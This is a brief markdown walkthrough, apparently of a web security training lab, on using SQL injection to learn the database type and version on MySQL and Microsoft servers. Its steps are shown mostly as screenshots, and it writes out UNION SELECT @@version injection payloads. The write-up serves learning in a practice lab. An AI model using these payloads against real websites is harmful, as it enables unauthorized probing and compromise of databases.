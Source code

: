 ```markdown
# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
```

## Step 1

Check number of column

<img src="Images/ps1.png" width="350" height="200">

## Step 2

Check in which column we can insert

<img src="Images/ps2.png" width="350" height="200">

Here we are able to insert in both column

<img src="Images/ps3.png" width="350" height="200">

## Step 3

Now we use this payload

' UNION SELECT @@version--

Modify query to

' UNION SELECT @@version,NULL#

Or

' UNION SELECT NULL,@@version#

Encode it to URL

<img src="Images/ps4.png" width="350" height="200">

And we have the answer

<img src="Images/ps5.png" width="350" height="200">

---
